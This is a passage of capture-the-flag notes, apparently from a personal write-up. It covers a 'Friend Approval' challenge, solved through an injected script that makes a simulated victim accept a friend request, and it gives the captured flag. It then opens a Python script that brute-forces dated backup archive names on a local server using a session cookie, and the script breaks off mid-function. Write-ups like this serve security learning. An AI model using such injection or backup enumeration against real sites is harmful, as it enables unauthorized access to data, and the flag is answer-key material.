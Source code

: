 
## Friend Approval

![[Pasted image 20210429131921.png]]

![[Pasted image 20210429141049.png]]

![[Pasted image 20210429134424.png]]

![[Pasted image 20210429141204.png]]

![[Pasted image 20210429141226.png]]

```bash
└──╼ $bash connect.sh 
Master running (pid=72123)
Allocated server port: 17252
Web server starting... please be patient! You can press Ctrl+C to stop it.
Initialization succeeded! Starting services...
2021-04-29 11:10:33,252 INFO Set uid to user 0 succeeded
2021-04-29 11:10:33,257 INFO RPC interface 'supervisor' initialized
2021-04-29 11:10:33,258 INFO supervisord started with pid 1
2021-04-29 11:10:34,261 INFO spawned: 'friends-daemon' with pid 25
2021-04-29 11:10:34,264 INFO spawned: 'nginx' with pid 26
2021-04-29 11:10:34,267 INFO spawned: 'php-fpm7' with pid 27
2021-04-29 11:10:35,340 INFO success: friends-daemon entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2021-04-29 11:10:35,341 INFO success: nginx entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2021-04-29 11:10:35,343 INFO success: php-fpm7 entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
XSS simulator: saw <script> in post!
XSS simulator: caught acceptFriend(8) call
XSS simulator: friend(s) accepted!
```

![[Pasted image 20210429141306.png]]


### Flag

**SpeishFlag{6x09h1dO6frbS6zi4Jt3savPZ2IIJfji}**



## Website backup

![[Pasted image 20210429145329.png]]

```python
import requests


URL = "http://localhost:8080/backup-YYYY-MM-DD.tar.gz"
cookie = {"PHPSESSID": "3is2vgj7sfcrod60lev39e2fhu"}


def send_request(i, j, k):
	url = URL
	url = url.replace("YYYY", i).replace("MM", j).replace("DD", k)
	r = requests.get(url=url, cookies=cookie)

	#print(url)
	if r.status_code != 404:
```